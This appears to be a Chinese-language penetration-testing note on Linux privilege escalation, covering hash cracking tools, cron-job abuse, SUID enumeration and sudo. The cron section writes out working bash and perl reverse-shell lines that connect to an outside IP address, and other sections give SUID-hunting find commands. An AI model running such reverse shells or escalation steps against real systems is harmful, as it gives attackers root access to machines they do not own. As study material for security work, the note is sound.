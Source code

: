 ## 03-Linux其他提权方法

**一、抓取密码提权**

- 密码Hash破解
  - hashcat 6.1.1
  - https://github.com/hashcat/hashcat
  - https://samsclass.info/123/proj10/p12-hashcat.htm
- 密码Hash嗅探
  - mimipenguin 桌面版
  - https://github.com/huntergregal/mimipenguin

**二、计划任务提权**
- https://www.secice.cn/post/75fd4604
- 利用原理：
  - 当 /bin/sh指向/bin/dash的时候(ubuntu默认这样，当前的靶机也是这样)，反弹shell用bash的话得这样弹： * * * * * root bash -c "bash -i  >&/dev/tcp/106.13.124.93/2333 0>&1"
    这样弹shell的时候不知道为什么很慢，耐心等等
  - */1 * * * * root perl -e 'use Socket;$i="106.13.124.93";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

**三、利用SUID提权**

- SUID概念：SUID（设置用户ID）是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。SUID可以让调用者以文件拥有者的身份运行该文件，所以我们利用SUID提权的思路就是运行root用户所拥有的SUID的文件，那么我们运行该文件的时候就得获得root用户的身份了。那么，为什么要给Linux二进制文件设置这种权限呢？其实原因有很多，例如，程序ping需要root权限才能打开网络套接字，但执行该程序的用户通常都是由普通用户，来验证与其他主机的连通性。
- SUID提权：什么是suid提权呢？一个文件，它有s标志，并且他输入root，那么我们运行这个程序就可以有了root的权限，并且这个程序还得能执行命令，那么我们就能从普通用户提升到了root权限了。
- 在本地查找符合条件的文件。
  - find / -user root -perm -4000 -print 2>/dev/null
  - find / -perm -u=s -type f 2>/dev/null
  - find / -user root -perm -4000 -exec ls -ldb {} \;
- 常见的可以提权的程序
  - nmap vim find Bash More Less Nano cp netcat

- 相关工具：
  - https://github.com/Jewel591/suidcheck

- 参考链接：
  - https://www.secice.cn/post/a20c8cf4
  - http://zone.secevery.com/article/1104
  - https://www.anquanke.com/post/id/86979
  - https://www.cnblogs.com/Qiuzhiyu/p/12528319.html
  - http://www.oniont.cn/index.php/archives/142.html
  - https://blog.csdn.net/fly_hps/article/details/80428173
  - https://blog.csdn.net/qq_36119192/article/details/84872644
  - https://www.leavesongs.com/PENETRATION/linux-suid-privilege-escalation.html

**四、利用SUDO提权**

Linux系统中可以使用sudo执行一个只有root才能执行的命令，配置文件保存在/etc/sudoers，sudo -l可以列出当前用户支持sudo的命令。

尽量从代码层面进行对漏洞的分析。

